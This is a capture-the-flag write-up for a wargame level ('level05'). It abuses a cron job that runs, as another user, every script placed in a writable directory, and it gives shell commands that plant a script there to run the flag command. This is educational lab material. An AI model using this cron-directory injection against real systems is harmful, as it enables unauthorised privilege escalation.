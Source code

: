 ## level05

There is nothing in the home folder. Luckily, during the exploration of the VM during the first exercise, we found the folder `/var/mail` which contains what looks like a cron job for user `flag05`: `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`.

```shell
#!/bin/sh
for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```
This script finds all the files found in `/opt/openarenaserver/*`, executes them, and removes them.

We will craft a script to exploit this vulnerability.
Our aim is for the cron job to run the getflag command and then broadcast the output to all users' terminals, meaning our terminal, using the wall command.

```shell
echo '#!/bin/sh' > /opt/openarenaserver/exploit.sh
echo 'getflag | wall' >> /opt/openarenaserver/exploit.sh
chmod +x /opt/openarenaserver/exploit.sh
```